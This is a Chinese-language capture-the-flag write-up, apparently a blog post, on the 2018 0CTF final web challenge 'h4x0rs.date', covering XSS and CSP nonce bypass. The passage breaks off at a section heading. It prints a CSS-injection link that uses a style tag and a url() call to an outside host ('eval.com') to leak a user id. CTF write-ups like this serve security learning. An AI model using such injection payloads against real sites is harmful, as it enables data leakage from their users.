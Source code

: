 ```yaml
---
title: 2018 0CTF final h4x0rs.date
author: 5am3
comment: true
date: 2018-06-03 17:26:42
tags:
	- xss
	- nonce绕过
	- 0ctf
	- csp
categories:
	- web
---
```




当时比赛时，差一点就解出来了。结束前半小时，才发觉获取nonce的漏洞点。

还是太菜了，否则能一跃第四。

这题其实挺有意思的， 赛后仔细想想，好像也不是太难。但是题目真心不错。

最后证实，这题有多种解法，但每一种解法，都感觉学到了很多。

题目链接：https://h4x0rs.date/



由于这篇题解自己拖得时间有点长了，所以刚刚发现 lorexxar大佬的题解写的很棒了，大家可以看一下，我就不过多介绍题目了。而且我尽量写一些与他不同的。

https://www.lorexxar.cn/2018/05/31/0ctf2018-final/#h4x0rs-data



## 获取ID

我们是通过一个比较简单的方式获取到的id。题目中存在一个id为msg标签可写内容。此时我们将自己资料改为

```html
<style id=msg></style>
```

然后构造链接report即可

```html
http://h4x0rs.date/login.php?redict=profile.php?id={you_id}%26msg=body{background-img:url('//eval.com?id=
```



## 【非预期】通过iframe控制csp

这个解法是刷出题人Twitter刷到的。

![mark](http://img.5am3.com/img/180531/HdEkFhl6GE.png)

### 原理
